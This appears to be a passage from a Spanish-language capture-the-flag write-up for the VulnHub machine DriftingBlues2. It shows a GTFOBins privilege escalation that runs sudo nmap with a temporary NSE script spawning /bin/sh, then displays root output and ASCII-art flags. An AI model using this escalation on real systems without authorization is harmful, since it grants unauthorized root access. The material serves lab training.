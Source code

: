 ![gtfobins](/assets/img/commons/vulnhub/DriftingBlues2/gtfobins.png){: .center-image }

Ejecutamos los comandos que menciona la web y elevamos nuestro privilegio, obteniendo así ambas flags.

```bash
freddie@driftingblues:~$ TF=$(mktemp)
freddie@driftingblues:~$ echo 'os.execute("/bin/sh")' > $TF
freddie@driftingblues:~$ sudo nmap --script=$TF
Starting Nmap 7.70 ( https://nmap.org ) at 2025-01-23 18:06 CST
NSE: Warning: Loading '/tmp/tmp.4vsOOCkNxI' -- the recommended file extension is '.nse'.
# uid=0(root) gid=0(root) groups=0(root)
# # user.txt
# flag 1/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░░░░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░░▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

# # /root
# root.txt
# flag 2/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
```